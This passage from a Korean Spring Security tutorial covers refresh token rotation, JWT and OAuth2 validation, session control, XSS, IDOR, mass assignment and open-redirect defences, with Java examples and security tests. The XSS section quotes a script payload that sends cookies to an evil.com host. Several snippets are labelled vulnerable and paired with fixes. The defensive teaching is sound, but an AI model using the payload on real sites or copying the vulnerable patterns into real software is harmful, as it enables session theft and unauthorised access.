            .compact();
    }

    public Claims validateAndExtract(String token) {
        try {
            return Jwts.parser()
                .verifyWith(getSigningKey())
                .build()
                .parseSignedClaims(token)
                .getPayload();
        } catch (ExpiredJwtException e) {
            throw new TokenExpiredException("토큰이 만료됐습니다");
        } catch (JwtException e) {
            throw new InvalidTokenException("유효하지 않은 토큰입니다");
        }
    }
}
```

---

## 12. Refresh Token 회전과 Token Family 탈취 감지

### 왜 Access Token을 짧게, Refresh Token을 길게 유지하는가

Access Token은 매 API 요청에 사용된다. 네트워크 전송 중 탈취될 위험이 상대적으로 높다. 탈취된 경우 만료될 때까지 공격자가 사용할 수 있으므로 유효 기간을 짧게(15분) 유지해 피해를 최소화한다.

Refresh Token은 Access Token이 만료됐을 때만 사용한다. 사용 빈도가 낮아 탈취 위험이 낮다. 사용자 경험을 위해 길게(7~30일) 유지한다.

이 둘을 분리함으로써 "보안"과 "편의성" 사이의 균형을 맞춘다.



### RTR (Refresh Token Rotation) -- Token Family 기반 탈취 감지

RTR의 핵심: Refresh Token을 한 번 사용하면 새것으로 교체하고, 이전 것을 무효화한다. Token Family는 최초 로그인부터 시작된 Refresh Token 계보를 추적한다. 이미 사용(회전)된 Refresh Token으로 갱신 요청이 오면, 해당 Family 전체를 무효화한다. 공격자와 정상 사용자 중 누가 먼저 갱신했는지에 상관없이 계정을 보호한다.

```java
@Service
@RequiredArgsConstructor
@Transactional
public class TokenRotationService {

    private final RefreshTokenRepository refreshTokenRepository;
    private final TokenService tokenService;

    // 로그인 시 최초 발급
    public TokenPair issueInitialTokens(String userId) {
        String familyId = UUID.randomUUID().toString(); // 이 로그인 세션의 Family
        String refreshToken = UUID.randomUUID().toString();

        RefreshTokenEntity entity = RefreshTokenEntity.builder()
            .token(refreshToken)
            .userId(userId)
            .familyId(familyId)
            .used(false)
            .expiresAt(Instant.now().plus(7, ChronoUnit.DAYS))
            .build();
        refreshTokenRepository.save(entity);

        String accessToken = tokenService.issueAccessToken(userId, getRoles(userId));
        return new TokenPair(accessToken, refreshToken);
    }

    // 갱신 요청
    public TokenPair rotate(String submittedRefreshToken) {
        RefreshTokenEntity entity = refreshTokenRepository
            .findByToken(submittedRefreshToken)
            .orElseThrow(() -> new InvalidTokenException("존재하지 않는 토큰"));

        // 이미 사용된 토큰 재사용 → 토큰 탈취 감지
        if (entity.isUsed()) {
            // Family 전체 무효화 — 공격자와 정상 사용자 모두 재로그인 필요
            refreshTokenRepository.revokeAllByFamilyId(entity.getFamilyId());
            throw new TokenReusedException("토큰이 재사용됨 — 보안 이벤트 감지");
        }

        if (entity.getExpiresAt().isBefore(Instant.now())) {
            throw new TokenExpiredException("Refresh Token 만료");
        }

        // 이전 토큰 사용 처리
        entity.markAsUsed();
        refreshTokenRepository.save(entity);

        // 새 Refresh Token 발급 (같은 Family 유지)
        String newRefreshToken = UUID.randomUUID().toString();
        RefreshTokenEntity newEntity = RefreshTokenEntity.builder()
            .token(newRefreshToken)
            .userId(entity.getUserId())
            .familyId(entity.getFamilyId()) // Family 계승
            .used(false)
            .expiresAt(Instant.now().plus(7, ChronoUnit.DAYS))
            .build();
        refreshTokenRepository.save(newEntity);

        String newAccessToken = tokenService.issueAccessToken(
            entity.getUserId(), getRoles(entity.getUserId()));
        return new TokenPair(newAccessToken, newRefreshToken);
    }

    public void logout(String refreshToken) {
        refreshTokenRepository.findByToken(refreshToken)
            .ifPresent(entity -> {
                entity.markAsUsed();
                refreshTokenRepository.save(entity);
            });
    }
}
```

---

## 13. OAuth2 Resource Server -- JWT 디코더, Opaque Token, Audience 검증

### Resource Server가 하는 일

Authorization Server가 발급한 JWT를 받아, 그 JWT가 유효한지 검증하고 클레임을 추출해 인가에 사용한다. Resource Server는 자신이 토큰을 발급하지 않는다. 검증만 한다.



### JWK Set 캐싱 -- 왜 공개키를 캐시하는가

Resource Server가 JWT를 검증할 때마다 Authorization Server의 JWK Set URI에 HTTP 요청을 보내면, Authorization Server가 병목이 된다. 또한 Authorization Server가 잠시 다운되면 모든 API가 인증 불가 상태가 된다. 따라서 공개키를 로컬에 캐싱한다.

키 로테이션 문제: Authorization Server가 새 키 쌍을 발급하면 JWK Set이 변경된다. JWT의 `kid`(Key ID) 헤더로 어떤 키로 서명됐는지 알 수 있다. 캐시에 해당 `kid`가 없으면 JWK Set을 다시 조회한다.

### OAuth2 Resource Server 설정

```java
@Configuration
@EnableWebSecurity
public class ResourceServerConfig {

    @Bean
    public SecurityFilterChain filterChain(HttpSecurity http) throws Exception {
        http
            .authorizeHttpRequests(auth -> auth
                .requestMatchers("/api/public/**").permitAll()
                .anyRequest().authenticated()
            )
            .oauth2ResourceServer(oauth2 -> oauth2
                .jwt(jwt -> jwt
                    .decoder(jwtDecoder())
                    .jwtAuthenticationConverter(jwtAuthenticationConverter())
                )
            );
        return http.build();
    }

    @Bean
    public JwtAuthenticationConverter jwtAuthenticationConverter() {
        // JWT claims에서 Spring Security Authority로 변환
        JwtGrantedAuthoritiesConverter authoritiesConverter =
            new JwtGrantedAuthoritiesConverter();
        authoritiesConverter.setAuthorityPrefix("ROLE_");
        authoritiesConverter.setAuthoritiesClaimName("roles");

        JwtAuthenticationConverter converter = new JwtAuthenticationConverter();
        converter.setJwtGrantedAuthoritiesConverter(authoritiesConverter);
        return converter;
    }
}
```

### Audience/Issuer/Scope 클레임 검증

JWT를 서명 검증만 하면 충분하지 않다. 다른 서비스가 같은 Authorization Server에서 발급한 JWT를 우리 API에 재사용할 수 있기 때문이다.

- **issuer(iss):** 이 토큰을 발급한 주체가 우리가 신뢰하는 Authorization Server인지 확인
- **audience(aud):** 이 토큰이 우리 Resource Server를 대상으로 발급됐는지 확인. `aud`에 우리 서버 식별자가 없으면 거부
- **scope:** 이 토큰으로 요청할 수 있는 권한 범위 확인

```java
@Bean
public JwtDecoder jwtDecoder() {
    NimbusJwtDecoder decoder = NimbusJwtDecoder
        .withJwkSetUri("https://auth.myapp.com/.well-known/jwks.json")
        .build();

    // 기본 검증(만료, 발급시간)에 더해 커스텀 검증 추가
    OAuth2TokenValidator<Jwt> issuerValidator =
        JwtValidators.createDefaultWithIssuer("https://auth.myapp.com");

    OAuth2TokenValidator<Jwt> audienceValidator = jwt -> {
        List<String> audiences = jwt.getAudience();
        if (audiences.contains("my-resource-server")) {
            return OAuth2TokenValidatorResult.success();
        }
        return OAuth2TokenValidatorResult.failure(
            new OAuth2Error("invalid_token", "audience 불일치", null)
        );
    };

    // 두 검증자를 AND 조건으로 결합
    OAuth2TokenValidator<Jwt> combined =
        new DelegatingOAuth2TokenValidator<>(issuerValidator, audienceValidator);
    decoder.setJwtValidator(combined);

    return decoder;
}

// 스코프 기반 인가: SCOPE_ 접두사로 GrantedAuthority가 생성됨
// JWT의 "scope": "read:orders write:orders" → SCOPE_read:orders, SCOPE_write:orders
@GetMapping("/api/orders")
@PreAuthorize("hasAuthority('SCOPE_read:orders')")
public List<Order> getOrders() { ... }
```

### Opaque Token Introspection

JWT는 자체 검증 가능(Self-contained)하지만, Opaque Token은 Authorization Server에 매 요청마다 검증을 요청해야 한다. 토큰 즉시 무효화가 필요할 때 Opaque Token을 선택한다.

```java
@Bean
public SecurityFilterChain filterChain(HttpSecurity http) throws Exception {
    http
        .oauth2ResourceServer(oauth2 -> oauth2
            .opaqueToken(opaque -> opaque
                .introspectionUri("https://auth.myapp.com/oauth2/introspect")
                .introspectionClientCredentials("resource-server-id", "secret")
            )
        );
    return http.build();
}

// Spring이 내부적으로 수행하는 Introspection 요청:
// POST /oauth2/introspect
// Authorization: Basic base64(resource-server-id:secret)
// token=<opaque-token>
//
// 응답:
// {
//   "active": true,
//   "username": "user@example.com",
//   "scope": "read write",
//   "exp": 1716537600
// }
```

---

## 14. 세션 관리 -- SessionCreationPolicy와 동시 세션 제어

### 4가지 정책 비교

| 정책 | 세션 생성 | 세션 사용 | 적합한 상황 |
|------|---------|---------|-----------|
| `STATELESS` | 절대 생성 안 함 | 절대 사용 안 함 | JWT 기반 REST API |
| `IF_REQUIRED` | 필요할 때 생성 | 있으면 사용 | 기본값, 폼 로그인 앱 |
| `NEVER` | 생성 안 함 | 있으면 사용 | 기존 세션 사용하되 새로 생성 불필요 |
| `ALWAYS` | 항상 생성 | 항상 사용 | 세션이 반드시 필요한 레거시 앱 |

**STATELESS를 REST API에서 쓰는 이유:** 세션을 서버 메모리에 유지하면 수평 확장 시 세션 공유 문제가 생긴다. 서버 A에서 생긴 세션을 서버 B는 모른다. 이를 해결하려면 Redis 같은 공유 저장소가 필요하다. JWT는 토큰 자체에 정보가 담겨있어 어떤 서버에서든 검증만 하면 된다.

### 동시 세션 제어

```java
@Bean
public SecurityFilterChain webChain(HttpSecurity http) throws Exception {
    http
        .sessionManagement(session -> session
            .sessionCreationPolicy(SessionCreationPolicy.IF_REQUIRED)
            // 한 사용자당 최대 1개 세션만 허용
            .maximumSessions(1)
            // true: 이미 로그인 상태면 새 로그인 차단
            // false: 새 로그인이 이전 세션을 만료시킴 (기본값)
            .maxSessionsPreventsLogin(false)
            .expiredUrl("/login?expired")
        )
        // 세션 고정 공격 방어
        // 로그인 성공 후 새 세션 ID 발급 → 공격자가 심어놓은 세션 ID 무효화
        .sessionManagement(session -> session
            .sessionFixation().changeSessionId()
        );
    return http.build();
}
```

**세션 고정(Session Fixation) 공격이란:** 공격자가 미리 세션 ID를 피해자에게 심어두고, 피해자가 로그인하면 그 세션 ID로 인증된 상태를 공유하는 공격이다. `changeSessionId()`는 로그인 성공 후 기존 세션 데이터를 유지하면서 세션 ID만 새로 발급해 이 공격을 막는다.

---

## 15. XSS 방어 -- Content-Security-Policy와 HttpOnly 쿠키

### XSS(Cross-Site Scripting) 공격 원리

공격자가 게시판, 댓글 등에 `<script>document.location='https://evil.com/steal?cookie='+document.cookie</script>`를 삽입한다. 다른 사용자가 이 페이지를 방문하면 스크립트가 실행되어 쿠키, 로컬스토리지 등이 탈취된다.

### HttpOnly 쿠키 -- JavaScript 접근 차단

```java
@PostMapping("/auth/login")
public ResponseEntity<?> login(@RequestBody LoginRequest request,
                                 HttpServletResponse response) {
    TokenPair tokens = authService.login(request);

    // Refresh Token은 HttpOnly 쿠키에 저장 → JavaScript로 접근 불가
    // XSS로 탈취 불가
    ResponseCookie refreshCookie = ResponseCookie.from("refresh_token", tokens.getRefreshToken())
        .httpOnly(true)      // JavaScript document.cookie 접근 차단
        .secure(true)        // HTTPS에서만 전송
        .sameSite("Strict")  // CSRF 방어 — 같은 사이트 요청에만 쿠키 포함
        .path("/api/auth")   // 이 경로에만 쿠키 전송 — 불필요한 전송 방지
        .maxAge(Duration.ofDays(7))
        .build();

    response.addHeader(HttpHeaders.SET_COOKIE, refreshCookie.toString());

    // Access Token은 응답 바디로 — 클라이언트가 메모리에서 관리
    // 로컬스토리지/세션스토리지 저장은 XSS 위험 → 메모리 변수에 보관 권장
    return ResponseEntity.ok(new AccessTokenResponse(tokens.getAccessToken()));
}
```

### Content-Security-Policy 헤더

CSP는 브라우저가 어디서 온 리소스를 실행할 수 있는지 지정한다. `script-src 'self'`이면 같은 도메인의 스크립트만 실행 허용. 외부에서 삽입된 인라인 스크립트나 외부 도메인 스크립트는 실행되지 않는다.

```java
@Bean
public SecurityFilterChain webChain(HttpSecurity http) throws Exception {
    http.headers(headers -> headers
        .contentSecurityPolicy(csp -> csp
            .policyDirectives(
                "default-src 'self'; " +
                "script-src 'self' https://cdn.myapp.com; " +
                "style-src 'self' 'unsafe-inline'; " +  // CSS 인라인 허용 (필요 시)
                "img-src 'self' data: https:; " +
                "connect-src 'self' https://api.myapp.com; " +
                "frame-ancestors 'none'; " +             // Clickjacking 방어
                "base-uri 'self'; " +
                "form-action 'self'"
            )
        )
        .frameOptions(frame -> frame.deny())             // X-Frame-Options: DENY
        .xssProtection(xss -> xss.enable())              // X-XSS-Protection: 1; mode=block
        .httpStrictTransportSecurity(hsts -> hsts        // HSTS
            .includeSubDomains(true)
            .maxAgeInSeconds(31536000)
        )
    );
    return http.build();
}
```

**출력 인코딩:** CSP와 HttpOnly 쿠키만으로는 부족하다. 사용자 입력을 화면에 출력할 때 HTML 엔티티로 인코딩해야 한다. Thymeleaf는 기본적으로 `th:text`에서 자동 이스케이프 처리한다. `th:utext`는 HTML을 그대로 출력하므로 절대 사용자 입력에 사용 금지.

---

## 16. 일반적인 보안 취약점 방어

### IDOR (Insecure Direct Object Reference)

공격자가 `/api/orders/1`을 조회하다가 `/api/orders/2`로 바꿔 다른 사용자 주문을 조회하는 공격이다. URL 파라미터나 바디의 ID를 그대로 DB 조회에 쓰면 발생한다.

```java
// 취약한 코드
@GetMapping("/api/orders/{orderId}")
public Order getOrder(@PathVariable Long orderId) {
    return orderRepository.findById(orderId).orElseThrow(); // 누구나 조회 가능
}

// 방어 — @PostAuthorize 또는 소유자 검증 포함 쿼리
@GetMapping("/api/orders/{orderId}")
@PostAuthorize("returnObject.memberId == authentication.principal.id or hasRole('ADMIN')")
public Order getOrder(@PathVariable Long orderId) {
    return orderRepository.findById(orderId).orElseThrow();
}

// 또는 소유자 검증을 포함한 쿼리로 방어
@GetMapping("/api/orders/{orderId}")
public Order getOrder(@PathVariable Long orderId,
                       @AuthenticationPrincipal CustomUserDetails user) {
    // 쿼리 수준에서 memberId 조건 추가 → DB에서 권한 없는 데이터는 아예 반환되지 않음
    return orderRepository.findByIdAndMemberId(orderId, user.getId())
        .orElseThrow(() -> new AccessDeniedException("해당 주문에 접근 권한이 없습니다"));
}
```

### Mass Assignment -- 허용되지 않은 필드 바인딩

클라이언트가 보내는 JSON에 `role`, `isAdmin`, `balance` 같은 민감한 필드가 포함돼 있을 때, 엔티티에 그대로 바인딩하면 권한 상승 공격이 가능하다.

```java
// 취약한 코드 — 요청 바디를 엔티티에 직접 바인딩
@PostMapping("/api/members")
public Member createMember(@RequestBody Member member) {
    // member.role = "ADMIN"으로 보내면 관리자 계정 생성 가능
    return memberRepository.save(member);
}

// 방어 — DTO로 허용 필드만 명시적으로 받기
@PostMapping("/api/members")
public Member createMember(@RequestBody @Valid MemberCreateRequest request) {
    // MemberCreateRequest에는 email, password, nickname만 있음
    // role, isAdmin 필드 없음 → 클라이언트가 보내도 무시됨
    Member member = Member.of(
        request.getEmail(),
        passwordEncoder.encode(request.getPassword()),
        request.getNickname(),
        MemberRole.USER  // 역할은 서버에서 고정 설정
    );
    return memberRepository.save(member);
}

public record MemberCreateRequest(
    @Email String email,
    @NotBlank @Size(min = 8) String password,
    @NotBlank @Size(max = 20) String nickname
    // role 필드 없음
) {}
```

### Open Redirect -- 검증되지 않은 URL 리다이렉트

```java
// 취약한 코드 — 공격자가 ?redirect=https://evil.com/phishing으로 유도 가능
@GetMapping("/login")
public String login(@RequestParam(required = false) String redirect,
                     HttpServletResponse response) throws IOException {
    response.sendRedirect(redirect != null ? redirect : "/dashboard");
    return null;
}

// 방어 — 허용된 도메인만 리다이렉트 허용
@GetMapping("/login")
public String login(@RequestParam(required = false) String redirect,
                     HttpServletResponse response) throws IOException {
    String safeRedirect = validateRedirect(redirect);
    response.sendRedirect(safeRedirect);
    return null;
}

private String validateRedirect(String redirect) {
    if (redirect == null || redirect.isBlank()) {
        return "/dashboard";
    }

    // 상대 경로만 허용 — 절대 URL 거부
    if (redirect.startsWith("/") && !redirect.startsWith("//")) {
        return redirect;
    }

    // 허용된 도메인 화이트리스트
    List<String> allowedHosts = List.of("myapp.com", "admin.myapp.com");
    try {
        URI uri = new URI(redirect);
        if (allowedHosts.contains(uri.getHost())) {
            return redirect;
        }
    } catch (URISyntaxException e) {
        // 파싱 실패 = 잘못된 URL
    }

    return "/dashboard"; // 기본값으로 폴백
}
```

---

## 17. 보안 테스트 -- @WithMockUser와 JWT 테스트 토큰

### @WithMockUser -- 인증 컨텍스트를 가진 테스트

```java
@SpringBootTest
@AutoConfigureMockMvc
class OrderControllerTest {

    @Autowired
    private MockMvc mockMvc;

    // SecurityContext에 ROLE_USER를 가진 가상 사용자 세팅
    @Test
    @WithMockUser(username = "test@test.com", roles = {"USER"})
    void 일반_사용자는_자신의_주문을_조회할_수_있다() throws Exception {
        mockMvc.perform(get("/api/orders/1"))
            .andExpect(status().isOk());
    }

    @Test
    @WithMockUser(roles = {"ADMIN"})
    void 관리자는_모든_주문을_삭제할_수_있다() throws Exception {
        mockMvc.perform(delete("/api/orders/1"))
            .andExpect(status().isNoContent());
    }

    @Test
    void 미인증_사용자는_401을_받는다() throws Exception {
        mockMvc.perform(get("/api/orders/1"))
            .andExpect(status().isUnauthorized());
    }

    // 커스텀 UserDetails가 필요한 경우
    @Test
    @WithUserDetails(value = "user@test.com", userDetailsServiceBeanName = "customUserDetailsService")
    void 커스텀_UserDetails로_테스트() throws Exception {
        mockMvc.perform(get("/api/my-info"))
            .andExpect(status().isOk())
            .andExpect(jsonPath("$.email").value("user@test.com"));
    }
}
```

### SecurityMockMvcRequestPostProcessors -- 세밀한 컨텍스트 제어

```java
import static org.springframework.security.test.web.servlet.request.SecurityMockMvcRequestPostProcessors.*;

@Test
void JWT_리소스_서버_테스트() throws Exception {
    mockMvc.perform(get("/api/orders")
            .with(jwt()
                .jwt(token -> token
                    .subject("user123")
                    .claim("scope", "read:orders")
                    .claim("roles", List.of("ROLE_USER"))
                    .expiresAt(Instant.now().plus(1, ChronoUnit.HOURS))
                )
            ))
        .andExpect(status().isOk());
}

@Test
void CSRF_토큰_포함_폼_요청_테스트() throws Exception {
    mockMvc.perform(post("/web/orders")
            .param("productId", "1")
            .with(csrf())                        // CSRF 토큰 자동 추가
            .with(user("admin").roles("ADMIN"))  // 인증 정보
        )
        .andExpect(status().isCreated());
}

@Test
void OpaqueToken_테스트() throws Exception {
    mockMvc.perform(get("/api/profile")
            .with(opaqueToken()
                .attributes(attrs -> attrs
                    .put("sub", "user123")
                    .put("scope", "profile")
                )
            ))
        .andExpect(status().isOk());
}
```

### 커스텀 @WithMockUser 어노테이션 만들기

```java
// 커스텀 SecurityContext 팩토리
public class WithCustomUserSecurityContextFactory
        implements WithSecurityContextFactory<WithCustomUser> {

    @Override
    public SecurityContext createSecurityContext(WithCustomUser annotation) {
        SecurityContext context = SecurityContextHolder.createEmptyContext();

        CustomUserDetails principal = new CustomUserDetails(
            annotation.id(),
            annotation.email(),
            "{noop}password",
            List.of(new SimpleGrantedAuthority("ROLE_" + annotation.role()))
        );

        UsernamePasswordAuthenticationToken authentication =
            new UsernamePasswordAuthenticationToken(
                principal,
                null,
                principal.getAuthorities()
            );

        context.setAuthentication(authentication);
        return context;
    }
}

// 커스텀 어노테이션 정의
@Retention(RetentionPolicy.RUNTIME)
@WithSecurityContext(factory = WithCustomUserSecurityContextFactory.class)
public @interface WithCustomUser {
    long id() default 1L;
    String email() default "test@test.com";
    String role() default "USER";
}

// 사용
@Test
@WithCustomUser(id = 42L, email = "alice@test.com", role = "USER")
void 사용자_ID_기반_주문_조회() throws Exception {
    mockMvc.perform(get("/api/members/42/orders"))
        .andExpect(status().isOk());
}
```

---

## 18. 극한 시나리오

### 시나리오 1: JWT 탈취 후 Token Family로 감지

공격자가 사용자의 Refresh Token을 탈취했다. 사용자와 공격자 모두 이 토큰으로 재발급을 시도한다.

```
T=0:  사용자 RT_1 보유, 공격자도 RT_1 탈취
T=1:  공격자가 RT_1으로 재발급 → RT_2 획득, RT_1 used 표시
T=2:  사용자가 RT_1으로 재발급 시도
      → RT_1이 이미 used 상태
      → "이미 사용된 토큰 재사용" 감지
      → 해당 Family 전체 무효화
      → 사용자와 공격자 모두 로그아웃됨
T=3:  사용자에게 보안 이메일 발송
```

회전 패턴이 없으면 공격자는 RT를 계속 쓸 수 있다. Token Family가 있으면 정상 사용자가 다음 재발급 시도 시 탈취를 감지한다.

### 시나리오 2: @PreAuthorize vs URL 패턴 중 하나만 있을 때

```java
// URL 패턴만 있을 때
http.authorizeHttpRequests(auth -> auth
    .requestMatchers("/api/admin/**").hasRole("ADMIN")
    .anyRequest().authenticated()
);
```

URL 패턴 변경 시 보안 구멍이 생긴다. `/api/admin/users`를 `/api/management/users`로 바꾸면 인가가 사라진다.

```java
// 메서드 레벨도 함께
@Service
public class AdminService {

    @PreAuthorize("hasRole('ADMIN')")
    public List<User> getAllUsers() {
        // URL 패턴이 없어도 이 메서드에 직접 접근하는 코드 경로가 있으면 막힘
        return userRepository.findAll();
    }
}
```

URL 패턴은 외부 진입점 보호, 메서드 보안은 비즈니스 로직 계층 보호다. 둘 다 적용하는 것이 Defense in Depth(심층 방어)다.

### 시나리오 3: Stateless 설정인데 세션이 생기는 경우

```java
http.sessionManagement(s ->
    s.sessionCreationPolicy(SessionCreationPolicy.STATELESS));
```

이렇게 설정해도 세션이 생길 수 있다. `HttpSession`을 직접 참조하는 코드, Spring MVC의 `FlashAttribute`, 일부 인증 실패 처리가 세션을 생성한다.

```java
// 세션 생성 여부 모니터링
@Component
public class SessionCreationListener implements HttpSessionListener {

    private static final Logger log = LoggerFactory.getLogger(SessionCreationListener.class);

    @Override
    public void sessionCreated(HttpSessionEvent event) {
        log.warn("Unexpected session created: {}", event.getSession().getId());
        // 스택 트레이스로 어디서 생성됐는지 추적
        Thread.currentThread().getStackTrace();
    }
}
```

### 시나리오 4: CORS Preflight가 인증 필터에서 막히는 경우

```
OPTIONS /api/orders 요청
→ JwtAuthenticationFilter: Authorization 헤더 없음
→ SecurityContext 비어있음
→ AuthorizationFilter: 인증 필요
→ 401 Unauthorized
→ 브라우저: CORS 오류
```

Preflight OPTIONS 요청은 항상 인증 없이 허용해야 한다:

```java
http.authorizeHttpRequests(auth -> auth
    // OPTIONS Preflight는 인증 불필요
    .requestMatchers(HttpMethod.OPTIONS, "/**").permitAll()
    .anyRequest().authenticated()
);

// 또는 CORS 설정이 SecurityFilterChain 전에 처리되도록
// .cors(cors -> cors.configurationSource(corsConfigurationSource()))
// CorsFilter가 JwtAuthenticationFilter보다 먼저 실행되어 Preflight를 처리함
```

### 시나리오 5: 멀티 테넌트 시스템에서 테넌트 간 데이터 격리

SaaS 서비스에서 회사 A의 사용자가 회사 B의 데이터에 접근하면 안 된다. JWT에 `tenantId`를 클레임으로 담고, 모든 쿼리에 `tenantId` 조건을 강제한다.

```java
// JWT에서 tenantId 추출
@Component
public class TenantContextFilter extends OncePerRequestFilter {

    @Override
    protected void doFilterInternal(HttpServletRequest request,
                                     HttpServletResponse response,
                                     FilterChain filterChain) throws ServletException, IOException {
        Authentication auth = SecurityContextHolder.getContext().getAuthentication();
        if (auth instanceof JwtAuthenticationToken jwtToken) {
            String tenantId = jwtToken.getToken().getClaimAsString("tenantId");
            TenantContext.setCurrentTenant(tenantId); // ThreadLocal에 저장
        }
        try {
            filterChain.doFilter(request, response);
        } finally {
            TenantContext.clear(); // 요청 완료 후 반드시 정리
        }
    }
}

// JPA에서 tenantId를 자동으로 필터링 (Hibernate Multi-tenancy)
@Entity
@FilterDef(name = "tenantFilter",
    parameters = @ParamDef(name = "tenantId", type = String.class))
@Filter(name = "tenantFilter", condition = "tenant_id = :tenantId")
public class Order {
    @Column(name = "tenant_id", nullable = false)
    private String tenantId;
    // ...
}
```

### 시나리오 6: Access Token 탈취 대응 -- 토큰 바인딩

극한 보안이 필요한 금융 서비스에서 Access Token이 탈취됐을 때의 피해를 최소화한다.

```java
// 클라이언트 IP와 User-Agent를 토큰에 바인딩
// 다른 환경에서 사용 시 검증 실패
@Service
public class BoundTokenService {

    public String issueToken(String userId, HttpServletRequest request) {
        String clientFingerprint = generateFingerprint(request);

        return Jwts.builder()
            .subject(userId)
            .claim("fingerprint", hashFingerprint(clientFingerprint))
            .expiration(new Date(System.currentTimeMillis() + 5 * 60 * 1000)) // 5분
            .signWith(privateKey)
            .compact();
    }

    public void validateToken(String token, HttpServletRequest request) {
        Claims claims = parseToken(token);
        String storedHash = claims.get("fingerprint", String.class);
        String currentFingerprint = generateFingerprint(request);

        if (!hashFingerprint(currentFingerprint).equals(storedHash)) {
            throw new TokenBindingException("토큰 환경 불일치 — 탈취 의심");
        }
    }

    private String generateFingerprint(HttpServletRequest request) {
        // IP + User-Agent 조합 (완벽하지 않지만 기본 방어)
        return request.getRemoteAddr() + "|" + request.getHeader("User-Agent");
    }
}
```

### 시나리오 7: 다중 SecurityFilterChain으로 독립 보안 정책 적용

```java
@Configuration
@EnableWebSecurity
public class MultiChainSecurityConfig {

    // 관리자 API: IP 화이트리스트 + 기본 인증
    @Bean
    @Order(1)
    public SecurityFilterChain adminChain(HttpSecurity http) throws Exception {
        http
            .securityMatcher("/admin/**")
            .authorizeHttpRequests(auth -> auth
                .requestMatchers("/admin/**").hasRole("SUPER_ADMIN")
                .anyRequest().denyAll()
            )
            .addFilterBefore(new IpWhitelistFilter(List.of("10.0.0.0/8")),
                ChannelProcessingFilter.class)
            .httpBasic(Customizer.withDefaults())
            .sessionManagement(s -> s.sessionCreationPolicy(SessionCreationPolicy.STATELESS));
        return http.build();
    }

    // OAuth2 Resource Server API
    @Bean
    @Order(2)
    public SecurityFilterChain resourceServerChain(HttpSecurity http) throws Exception {
        http
            .securityMatcher("/api/**")
            .oauth2ResourceServer(oauth2 -> oauth2
                .jwt(jwt -> jwt.jwkSetUri("https://auth.myapp.com/.well-known/jwks.json"))
            )
            .authorizeHttpRequests(auth -> auth
                .requestMatchers("/api/public/**").permitAll()
                .requestMatchers("/api/admin/**").hasAuthority("SCOPE_admin")
                .anyRequest().authenticated()
            )
            .sessionManagement(s -> s.sessionCreationPolicy(SessionCreationPolicy.STATELESS));
        return http.build();
    }

    // 웹 앱: 폼 로그인 + 세션
    @Bean
    @Order(3)
    public SecurityFilterChain webChain(HttpSecurity http) throws Exception {
        http
            .securityMatcher("/web/**", "/login", "/logout")
            .formLogin(form -> form
                .loginPage("/login")
                .defaultSuccessUrl("/web/dashboard", true)
                .failureUrl("/login?error")
            )
            .logout(logout -> logout
                .logoutUrl("/logout")
                .invalidateHttpSession(true)
                .deleteCookies("JSESSIONID")
                .logoutSuccessUrl("/login?logout")
            )
            .sessionManagement(session -> session
                .sessionCreationPolicy(SessionCreationPolicy.IF_REQUIRED)
                .maximumSessions(1)
                .maxSessionsPreventsLogin(false)
            )
            .authorizeHttpRequests(auth -> auth
                .requestMatchers("/login", "/css/**", "/js/**").permitAll()
                .anyRequest().authenticated()
            );
        return http.build();
    }
}
```

---

## 19. 실수 모음 -- 실무에서 자주 발생하는 보안 버그

| 실수 | 증상 | 올바른 해결 |
|------|------|-----------|
| `anyRequest()` 앞에 특정 경로 선언 | 모든 경로가 `anyRequest()` 규칙 적용 | 구체적 경로를 앞에, `anyRequest()`를 마지막에 |
| JWT 만료를 필터에서 안 잡음 | `ExpiredJwtException` → 500 반환 | `sendError(401)` 또는 체인 계속 진행 |
| Refresh Token을 LocalStorage에 저장 | XSS로 탈취 가능 | HttpOnly + Secure 쿠키에 저장 |
| 메서드 내부 호출에 `@PreAuthorize` | 권한 체크 우회 | 별도 서비스 빈으로 분리 |
| CORS를 WebMvc + Security 양쪽 설정 | CORS 헤더 중복 또는 Security 예외 시 헤더 없음 | Security `cors()` 설정으로 통일 |
| `allowedOrigins("*")` + `allowCredentials(true)` | `IllegalArgumentException` | `allowedOriginPatterns()` 사용 |
| IDOR 방어 없는 리소스 조회 | 타 사용자 데이터 접근 | `findByIdAndMemberId()` 또는 `@PostAuthorize` |
| `th:utext`로 사용자 입력 출력 | XSS 취약 | `th:text` 사용 (자동 이스케이프) |
| BCrypt `equals()`로 비교 | 항상 false | `passwordEncoder.matches()` 사용 |
| `DaoAuthenticationProvider.hideUserNotFoundExceptions` false | 계정 존재 여부 노출 | 기본값(true) 유지 |

---

## 20. 인증 흐름 종합 요약



| 구성요소 | 역할 | WHY |
|---------|------|-----|
| `DelegatingFilterProxy` | Servlet ↔ Spring 연결 | Tomcat이 Spring Context를 모름 |
| `FilterChainProxy` | SecurityFilterChain 관리 | 복수 보안 정책 지원 |
| `SecurityContextHolderFilter` | ThreadLocal 생명주기 | 스레드별 인증 격리 |
| `UsernamePasswordAuthFilter` | 폼 로그인 처리 | 세션 기반 인증 시작점 |
| `BasicAuthenticationFilter` | HTTP Basic 처리 | Stateless 단순 인증 |
| `ExceptionTranslationFilter` | 보안 예외 → HTTP 변환 | 401/403 응답 일관성 |
| `AuthorizationFilter` | 인가 최종 결정 | 인증 후 권한 검증 |
| `ProviderManager` | Provider 체인 관리 | 다양한 인증 방식 교체 가능 |
| `DaoAuthenticationProvider` | DB 기반 인증 | UserDetailsService + PasswordEncoder |
| `SecurityContextHolder` | ThreadLocal 저장소 | 스레드 안전한 인증 전파 |
| `BCryptPasswordEncoder` | 비밀번호 해싱 | Salt + Cost Factor로 무차별 대입 저항 |
| `@PreAuthorize` | 메서드 레벨 인가 | URL 패턴 변경에도 보안 유지 |
| `CsrfFilter` | CSRF 방어 | 세션 기반 서비스에서 브라우저 자동 쿠키 악용 차단 |
| `CorsFilter` | CORS 처리 | Preflight OPTIONS를 인증 필터 전에 처리 |
| `JwtDecoder` | JWT 서명 검증 | Authorization Server 공개키로 위변조 탐지 |

---

<details>
<summary><strong>면접 포인트</strong></summary>

### Q1. DelegatingFilterProxy가 왜 필요한가?

Tomcat(서블릿 컨테이너)은 Spring ApplicationContext를 모른다. 서블릿 필터는 Tomcat이 직접 관리하므로 Spring 빈을 주입받을 수 없다. `DelegatingFilterProxy`는 Tomcat에 등록되지만 실제 처리는 Spring 빈인 `FilterChainProxy`에 위임한다. 부팅 순서상 Tomcat이 먼저 시작되고 Spring Context가 나중에 초기화되기 때문에, Lazy 방식으로 Spring Bean에 대한 참조를 지연시켜 초기화 순서 문제를 해결한다. Spring Boot는 `SecurityFilterAutoConfiguration`을 통해 이 과정을 자동화한다.

